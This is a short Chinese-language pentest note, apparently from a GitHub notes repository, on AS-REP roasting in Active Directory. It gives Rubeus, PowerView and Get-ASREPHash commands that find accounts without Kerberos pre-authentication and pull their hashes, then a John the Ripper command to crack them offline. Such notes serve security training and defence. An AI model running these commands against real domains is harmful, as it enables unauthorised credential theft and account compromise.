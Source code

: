 	当用户关闭了kerberos预身份认证时可以进行攻击
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/378.png)

	>Rubeus.exe asreproast /user:y /dc:10.1.1.100 /domain:zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/379.png)

	或使用Powerview结合https://github.com/gold1029/ASREPRoast
	获取不要求kerberos预身份验证的域内用户
	>Get-DomainUser -PreauthNotRequired -Properties distinguishedname –Verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/380.png)

	>Get-ASREPHash -UserName y -Domain zone.com -Verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/381.png)

	破解RC4-HMAC AS-REP
	>john hash.txt --wordlist=wordlist.txt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/382.png)
